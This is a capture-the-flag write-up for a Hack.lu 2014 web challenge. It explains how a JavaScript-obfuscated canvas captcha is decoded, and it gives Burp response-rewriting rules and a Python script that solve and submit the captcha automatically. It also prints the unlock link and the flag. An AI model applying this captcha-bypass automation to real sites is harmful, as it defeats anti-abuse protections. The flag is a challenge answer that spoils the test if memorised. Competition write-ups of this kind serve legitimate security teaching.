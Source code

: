 ```yaml
---
layout: post
title: "Hack.lu 2014 - Dalton's Corporate Security Safe for Business"
date: 2014-10-24 23:54
comments: true
categories: [web, hacklu, hackluctf, burp]
author: hammertime
---
```


## Challenge
The Dalton Brothers are tricking people into buying their "safe" locks. So they
can rob them afterwards. The lock has some safety features, as it resets itself
after a few seconds. It also requires a lot of valid inputs before it's letting
you open it. Please find out what their weakness is and report back. 

[link](https://wildwildweb.fluxfingers.net:1422/)

## Analysis
The captcha image is being painted in a canvas clientside by JavaScript. This
is done in 8 ways. 3 examples are:

1) Base64 Decoding a value
2) Using Javascript.fromCharCode()
3) /n/.source

These values are then inserted using
[fillText()](http://www.w3schools.com/tags/canvas_filltext.asp). The fillText
function looks like this (var,x,y), where x is left right relative to the HTML
canvas and y is up down relative to the canvas.  So to put the numbers in
order, you can grep out the fillText functions and sort by the x position to
get them in the right order.

## Solution
Since there is a lot of variance in how the variables are assigned and used to
build the captcha (including some variable reuse), it seemed to make the most
sense to store these values immediately after they are used, then populate and
submit the form automatically. Because of this, I decided to modify the
JavaScript inline using Burp. I used the following search/replace rules on the
response body:

```
match: <script>
replace: <script>blakeval={};
```

```
match: fillText\((.*?)\)
replace: fillText($1);var args="$1".split(','); var b1=args[0]; var b2=args[1]; blakeval[b2]=eval(b1);
```

```
match: </script>
replace: var fieldval = ""; for(var key in blakeval) { fieldval += blakeval[key] }; document.getElementsByName('solution')[0].value = fieldval; document.forms[0].submit()</script>
```

By using the x index from fillItem() as the key in property, it will be autosorted in the way that we need. Then simply populate the form and submit. Wait a while and then the link is unlocked.

```
https://wildwildweb.fluxfingers.net:1422/?login=rRrtTE0WYFh5bVHToYQwKyvP
```

Flag:
```
fef9565c97c3a62fe10d2a0084a9e8179d72f4a05084997cb80e900d1a77a42e3
```

## Alternative Solution

This solution (written in Python) utilizes the following workflow:
 * Request the HTTP session, find the &lt;script&gt; and separate the
   Javascript into individual lines
 * Parse the Javascript (minding the X-coordinate of the textfill() function to
   reassemble the order.  There are a total of eight tricks they're using to
   obfuscate the characters, so there's are eight branches depending on which
   one we've encountered.
 * Extract the characters and PHP session ID, then resubmit the page.
 * Loop repeatedly until the locks allow access to the flag
 * Access the flag when the URL is unlocked.

It's a terrible, terrible script, but here it is for grins.

```python
#!/usr/bin/python

import sys
import re # RegEx to extract <script> .* </script>
import requests   # Used for GET/POST requests
import base64  # Needed to deobfuscate some of the characters

# This generates Javascript output and is used to verify the decoding of each character and position
debug = False

# The hard work is broken into four functions
#   isALetter - detect the presence of any of the eight obfuscation methods
#   extractLetter - deobfuscate the Javascript (using one of eight techniques)
#   isAPosition - detects the presence of fillText() which is used to draw a character and includes the X,Y coordinates
#   extractPosition - extracts the X coordinates of the character being printed

def extractLetter(line):
  if 'atob' in line:
    if debug: print "1", line,
    line = line.split("(")[1]
    line = line.split(")")[0]
    line = base64.b64decode(line)
    if debug: print  line
    return line
  elif 'fromCharCode' in line:
    if debug: print "2", line,
    line = line.split("(")[1]
    line = line.split(")")[0]
    line = chr(int(line))
    if debug: print  line
    return line
  elif '.source' in line:
    if debug: print "3", line, 
    line = line.split("/")[1]
    line = line.split("/")[0]
    if debug: print line
    return line
  elif '!1' in line:    #false
    string = "false"
    if debug: print "4", line, 
    line = line.split("[")[1]
    line = line.split("]")[0]
    line = string[int(line)]
    if debug: print line
    return line
  elif '[]+{}' in line:  #[object Object]
    string = "[object Object]"
    if debug: print "5", line, 
    line = line.split("[")[2]
    if debug: print "/",line,"/",
    line = line.split("]")[0]
    if debug: print "|",line,"|",
    line = string[int(line)]
    if debug: print line
    return line
  elif """[][+[]]+""""" in line:
    string = "undefined"
    if debug: print "6", line, 
    line = line.split("[")[4]
    line = line.split("]")[0]
    line = string[int(line)]
    if debug: print line
    return line
  elif "''+!0" in line:
    string = "true"
    if debug: print "7", line, 
    line = line.split("[")[1]
    line = line.split("]")[0]
    line = string[int(line)]
    if debug: print line
    return line
  elif ").toString(" in line: 
    string = "0123456789abcdefghijklmnopqrstuvwxyz"
    if debug: print "8", line, 
    line = line.split("(")[1]
    line = line.split(")")[0]
    line = string[int(line)]
    if debug: print line
    return line
  elif 'var' in line and 'createLinearGradient' not in line and 'getContext' not in line:
    print "?", line
    return ""
  elif 'fillText' in line:
    if debug: print "!", line
    return ""
  else: 
    return ""

def isALetter(line):
  if 'atob' in line: return True
  elif 'fromCharCode' in line: return True
  elif '.source' in line: return True
  elif '!1' in line: return True
  elif '[]+{}' in line: return True
  elif """[][+[]]+""""" in line: return True
  elif "''+!0" in line: return True
  elif ").toString(" in line: return True
  else: return False

def isAPosition(line):
  if 'fillText' in line: return True

def extractPosition(line):
  if 'fillText' in line:
    pos = line.split(",")[1]
    if debug: print "POS = ", pos
    return int(pos)
  else:
    return false

url='https://wildwildweb.fluxfingers.net:1422/'
cookies = dict()
params = dict()
PHPSESSID = ""

r = requests.get(url, cookies=cookies)

PHPSESSID = r.cookies['PHPSESSID']
cookies['PHPSESSID'] = PHPSESSID

for i in range(0,100):

  r = requests.get(url, cookies=cookies)
  #print r.cookies['PHPSESSID']

  script = re.findall(r".*script.*", r.content)[0]
  scriptLines = re.sub(r";", ";\n", script)
  scriptLines = scriptLines.split("\n")

  answerArray = [None] * 100
  answerString = ""

  for scriptLine in scriptLines:
    if isALetter(scriptLine):
      letter = extractLetter(scriptLine)
    if isAPosition(scriptLine):
      position = extractPosition(scriptLine)
      answerArray[position] = letter

  for letter in answerArray:
    if letter != None:
      answerString += letter

  print " -- REPLYING:" , answerString
  params['solution'] = answerString
  params['submit'] = "OK"

  r = requests.post(url, cookies=cookies, data=params)

  # print r.content

  for line in r.content.splitlines():
    if '<p>' in line: print line
    if '<li>' in line:
      print line
      if 'a href="?login=' in line:
        line = line.split('"')
        q = requests.get(url + line[1], cookies=cookies)
        print q.content
        sys.exit(0)
    if 'slow' in line: print line
    if 'anew' in line: print line
    if 'good' in line: print line
```
